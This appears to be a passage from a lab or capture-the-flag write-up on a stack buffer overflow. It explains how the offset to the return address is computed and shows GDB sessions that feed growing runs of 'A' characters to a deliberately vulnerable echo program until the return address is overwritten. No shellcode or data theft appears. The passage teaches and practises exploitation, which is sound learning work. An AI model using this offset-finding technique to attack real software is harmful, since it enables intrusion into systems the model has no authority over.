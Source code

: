 The offset is the amount of bytes between filling up the buffer and the start of the return address.

offset = `buffer[140] + alignment bytes + rbp[8]`

:::

use Python and GDB to find the offset i.e. number of bytes it takes to overwrite the return address.

```sh
(gdb) run $(python -c "print('A' * 150)")
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 150)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400595 in main ()

(gdb) run $(python -c "print('A' * 151)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 151)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGBUS, Bus error.
0x0000000000400595 in main ()

(gdb) run $(python -c "print('A' * 152)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 152)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGILL, Illegal instruction.
0x0000000000400500 in __do_global_dtors_aux ()

(gdb) run $(python -c "print('A' * 155)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A' * 155)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000414141 in ?? ()
```
